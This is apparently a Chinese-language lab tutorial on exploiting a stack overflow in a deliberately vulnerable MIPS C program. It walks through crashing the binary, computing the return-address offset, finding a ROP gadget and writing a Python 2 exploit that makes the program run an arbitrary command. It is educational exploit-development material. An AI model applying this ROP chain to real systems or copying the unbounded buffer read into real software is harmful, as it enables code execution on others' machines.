

# 一：源码
### 实现功能：从文件passwd读取密码并判断是否是adminpwd，从而执行设定好的ls命令。
### 存在漏洞：程序中并未对文件大小做出限制，而所给缓冲区只有256个字节。
### 目标：构造ROP链实现执行任意命令
~~~ 
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
void do_system(int code ,char* cmd)
{

	char buf[255];
	system(cmd);
}

void main()
{
	char buf[256] = {0};
	char ch;
	int count = 0;
	unsigned int filelen = 0;
	struct stat filedata;                                   //获取文件信息
	FILE*fp;    
	if(0== stat("passwd",&filedata))
	{
		filelen=filedata.st_size;                           //获取文件大小
	}
	else
	{
	
		return 1;
	}
	if((fp=fopen("passwd","rb"))==NULL)                     //打开文件
	{
		printf("cannot open file passwd!\n");
		exit(1);
	}
	ch=fgetc(fp);
	while(count<=filelen)
	{
		buf[count++] = ch;                                  //循环读取内容到堆栈中
		ch = fgetc(fp);
	}
	buf[--count] = '\x00';
	if(!strcmp(buf,"adminpwd"))
	{
		do_system(count,"ls -l");                           //执行ls -l命令
	
	}
	else
	{
		printf("you have an invalid password!\n");
	}
	fclose(fp);

}
~~~

# 二：实施步骤
#### 1：劫持PC（搞崩程序）
通过使用python命令，生成一个具有600个‘A’的文件passwd
~~~
python -c "print 'A'*600">passwd
~~~
之后执行程序后成功崩溃。

#### 2：确定偏移
~~~
//经过动态调试可知此处就是在读取文件中的字节到堆栈中，此时我们记录一下堆栈地址add1 = （$v0+0x18）
004005C4                 sb      $v1, 0x18($v0) 
//这条就是重新从堆栈中读取返回地址到寄存器，此时我们记录下堆栈地址add2 = $sp+0x1cc
0040070C                 lw      $ra, 0x1D0+var_4($sp)
~~~
记录完成之后count = add2-add1就是覆盖ra所需的字节数了。

#### 3：确定攻击途径
要执行任意命令，我们只需要能够更改函数do_system的第二个参数即可，所以我们的大致思路是，通过文件passwd对ra进行覆盖，让其跳转到具有从堆栈中取值到$a1,之后通过ra返回的gadget。
通过插件MIPS ROP Finder进行搜索，使用方法点击edit-plugins-MIPS ROP Finder,之后在脚本栏中输入mipsrop.stackfinders()可以找到一条符合要求的指令如下：
~~~
.text:004037A0                 addiu   $a1, $sp, 0x58+var_40   //从$sp+0x18处取值到$a1
.text:004037A4                 lw      $ra, 0x58+var_4($sp)    //从$sp+0x54处取返回地址到ra
.text:004037A8                 sltiu   $v0, 1
.text:004037AC                 jr      $ra
~~~
那我们只要覆盖返回地址为004037A0，将$sp+0x18改为我们想要执行的cmd命令，将$sp+0x54改为do_system地址即可

#### 4：构建shellcode
使用python脚本构建源码如下
~~~
#exploit.py
import struct
print '[*]prepare shellcode',
#设置要执行的cmd命令
cmd = 'pwd'
cmd+="\x00"*(4-len(cmd)%4)

#构建shellcode
shellcode="A"*0x19c
shellcode+=struct.pack('>L',0x4037a0)
shellcode+='A'*24
shellcode+=cmd
shellcode+='B'*(0x3c-len(cmd))
shellcode+=struct.pack('>L',0x4006c0)
shellcode+='BBBB'
print 'ok!'
print '[+]write shellcode to file',

#写入文件passwd
fw=open('passwd','w')
fw.write(shellcode)
fw.close()
print 'ok!'
~~~

